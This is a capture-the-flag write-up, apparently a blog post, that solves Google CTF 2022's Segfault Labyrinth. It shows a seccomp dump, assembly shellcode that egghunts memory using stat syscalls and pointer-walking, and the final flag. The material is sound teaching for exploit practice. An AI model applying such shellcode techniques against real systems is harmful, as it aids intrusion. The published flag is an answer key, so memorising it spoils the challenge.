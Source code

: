 ```yaml
---
layout: default
title: "labyrinth - Google CTF Quals 2022"
date: 2022-07-03
permalink: /labyrinth/
categories: ctf misc pwn shellcode
---
```


Segfault Labyrinth was a Misc shellcoding challenge from Google CTF Quals 2022. I spent several hours more than I should have on it due to a misunderstanding!
<!--more-->

# Segfault Labyrinth
### Or, 'wasting 4 hours because of forgetting the RDI register'


## Summary
The challenge sets up a 'labyrinth' - it repeatedly:
- Creates 16 buffers using `mmap` of size 0x1000
- One of the buffers will randomly be made RW, the others unread/writable
- The writable buffer will be filled with *another* 16 pointers
- On the final iteration, the flag will be placed into the writable buffer

```
Start              End                Offset             Perm Path
0x000000216232b000 0x000000216232c000 0x0000000000000000 ---
0x0000002901d92000 0x0000002901d93000 0x0000000000000000 ---
0x0000005072377000 0x0000005072378000 0x0000000000000000 ---
0x0000006b94774000 0x0000006b94775000 0x0000000000000000 ---
0x0000008138651000 0x0000008138652000 0x0000000000000000 rw-
0x000000836c41e000 0x000000836c41f000 0x0000000000000000 ---
0x0000008edbdbb000 0x0000008edbdbc000 0x0000000000000000 ---
0x0000008f2b16e000 0x0000008f2b16f000 0x0000000000000000 ---
0x00000098a3158000 0x00000098a3159000 0x0000000000000000 ---
0x000000a0382d5000 0x000000a0382d6000 0x0000000000000000 ---
0x000000b03e0d6000 0x000000b03e0d7000 0x0000000000000000 ---
0x000000bf72b24000 0x000000bf72b25000 0x0000000000000000 rw-
0x000000d34b6b8000 0x000000d34b6b9000 0x0000000000000000 ---
0x000000ded7273000 0x000000ded7274000 0x0000000000000000 ---
0x00000100f8fda000 0x00000100f8fdb000 0x0000000000000000 rw-
0x0000010233ca9000 0x0000010233caa000 0x0000000000000000 ---
0x00000109cf93e000 0x00000109cf93f000 0x0000000000000000 ---
0x0000011447b83000 0x0000011447b84000 0x0000000000000000 ---
0x000001190cdf7000 0x000001190cdf8000 0x0000000000000000 ---
0x0000012200864000 0x0000012200865000 0x0000000000000000 ---
0x0000012e6860b000 0x0000012e6860c000 0x0000000000000000 rw-
0x000001381824a000 0x000001381824b000 0x0000000000000000 ---
0x00000140e0f86000 0x00000140e0f87000 0x0000000000000000 rw-
0x0000015014adb000 0x0000015014adc000 0x0000000000000000 ---
0x00000153ea448000 0x00000153ea449000 0x0000000000000000 ---
0x0000015b5af6c000 0x0000015b5af6d000 0x0000000000000000 ---
0x00000168e122f000 0x00000168e1230000 0x0000000000000000 ---
[ ... ]
gef➤  search-pattern CTF{
[+] Searching 'CTF{' in memory
[+] In (0xbf72b24000-0xbf72b25000), permission=rw-
  0xbf72b24000 - 0xbf72b24018  →   "CTF{PLACEHOLDERFLAGHERE}\n"
gef➤  vmmap 0xbf72b24000
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x000000bf72b24000 0x000000bf72b25000 0x0000000000000000 rw-
```

The challenge then loads a seccomp filter:
```
line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x0000000b  if (A != munmap) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x15 0x00 0x01 0x00000005  if (A != fstat) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x15 0x00 0x01 0x00000004  if (A != stat) goto 0020
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0022
 0021: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0022: 0x06 0x00 0x00 0x00000000  return KIL
```
It copies a short shellcode prologue, before copying our input (more shellcode) into a buffer, then executes it, passing a pointer to the first buffer (the start of 'the labyrinth').
![prefix](https://imgur.com/pKfq1Q8.png)

## Attempt 1
It seems like all registers have been cleared - we have no context for where any code or memory is located. However, there are ways to scan through memory without crashing, often known as egghunting. The general approach is to
- Use a syscall which takes a pointer (`write`, `access`, `stat`) on an address
- Syscall's won't segfault, and will instead return `-EFAULT` (`0xfffffffffffffff2`)
- A return value of `-EFAULT` means that the page isn't mapped, so we increment the address by 0x1000 and try again
- If a mapped page is found, we can either conclude our search or iterate through the page itself, searching for the 'egg' (a short marker value)

In this case, as we would have no idea of the memory layout of the chunks, my strategy was to try and locate the stack. We would then be able to locate the address of the start of the buffer on the stack, and follow the pointers.
```nasm
[bits 64]
mov rdi, 0x7ff000000000 ; common stack prefix to start our search
mov rsi, rdi 
loop:
mov rax, 4  ; SYS_stat
syscall
cmp al, 0xf2 ; -EFAULT
jne out      ; Is a valid address, search is done
add rdi, 0x1000  ; Go to the next page and continue the search
mov rsi, rdi
jmp loop
out:
int3
```
This takes around 5 seconds to locate the stack pointer.
However, no matter what I tried, the offset to the pointer seemed to be inconsistent. I went back to the binary to try and statically discover the offset to the pointer, and at this point noticed something.

![rdilol](https://imgur.com/ZXUZFbe.png)
Due to my screen layout, the register display had been cut off - I missed the fact that **RDI was never cleared**, and contains the pointer to the start of the buffer.

![brain](https://imgur.com/XmSb49w.png)

## Attempt 2
So, the start of the labyrinth is in RDI. Now, all we need to do is follow the links, using egghunter-type syscalls to check the readability of a pointer.
```nasm
[bits 64]
lea rsp, [rdi + 160] ; give us stack space so we can call/ret
check_chunk:
mov r14d, [rdi] ; load the dword at the start of the buffer
cmp r14d, 0x7b465443 ; if it's equal to 'CTF{', we got it!
je flag
mov r15, rdi
loop:         ; loop over the 16 pointers
mov rdi, [r15]
call is_readable
cmp al, 1     ; if readable, jump to check_chunk, recursing
je check_chunk
add r15, 8    ; otherwise, add 8 and go to the next pointer
jmp loop

is_readable:
mov rax, 4    ; SYS_stat
lea rsi, [rdi+0x80] ; avoid clobbering pointers in case stat does end up writing to the chunk
syscall
cmp al, 0xf2 ; check if result was EFAULT
jne yes
mov al, 0
ret
yes:
mov al, 1
ret

flag:   ; rdi points to the flag, write it out!
mov rax, 1
mov rsi, rdi
mov rdi, 1
mov rdx, 100
syscall
```

We can assemble and upload our program, and get the flag:
```sh
> python3 solve.py
[+] Opening connection to segfault-labyrinth.2022.ctfcompetition.com on port 1337: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
== proof-of-work: disabled ==
Welcome to the Segfault Labyrinth
CTF{c0ngratulat1ons_oN_m4k1nG_1t_thr0uGh_th3_l4Byr1nth}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
$
```

